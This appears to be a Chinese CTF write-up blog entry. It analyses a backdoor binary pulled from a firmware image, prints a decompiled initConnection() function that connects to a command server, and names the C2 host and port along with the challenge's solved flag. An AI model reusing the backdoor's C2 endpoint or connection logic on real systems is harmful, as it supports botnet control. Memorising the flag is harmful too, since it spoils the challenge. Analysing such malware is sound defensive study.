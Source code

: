 利用uncramfs_all.sh拆120200.squashfs

发现/tmp里有个backdoor文件，这也太明显了，不过要是藏起来可能还真找不着

拖ida分析

先看string窗口直接就看到了 echo.byethost51.com

盲猜就是题目要的服务器地址，点进去看到变量名commServer，确信

查交叉引用找到了ininConnextion()函数

```c
bool initConnection()
{
  char *v0; // r0
  char s[512]; // [sp+4h] [bp-208h] BYREF
  int v3; // [sp+204h] [bp-8h]

  memset(s, 0, sizeof(s));
  if ( mainCommSock )
  {
    close(mainCommSock);
    mainCommSock = 0;
  }
  if ( currentServer )
    ++currentServer;
  else
    currentServer = 0;
  strcpy(s, (&commServer)[currentServer]);
  v3 = 36667;
  if ( strchr(s, 58) )
  {
    v0 = strchr(s, 58);
    v3 = atoi(v0 + 1);
    *strchr(s, 58) = 0;
  }
  mainCommSock = socket(2, 1, 0);
  return connectTimeout(mainCommSock, s, v3, 30) == 0;
}
```

盲猜端口号就是v3=36667，实在太像了

于是flag{MD5(echo.byethost51.com:36667)}=flag{33a422c45d551ac6e4756f59812a954b}

correct！

# 第五周

2021-11-29 
补上周，虽迟但到

## 0x00 DDCTF Android Easy
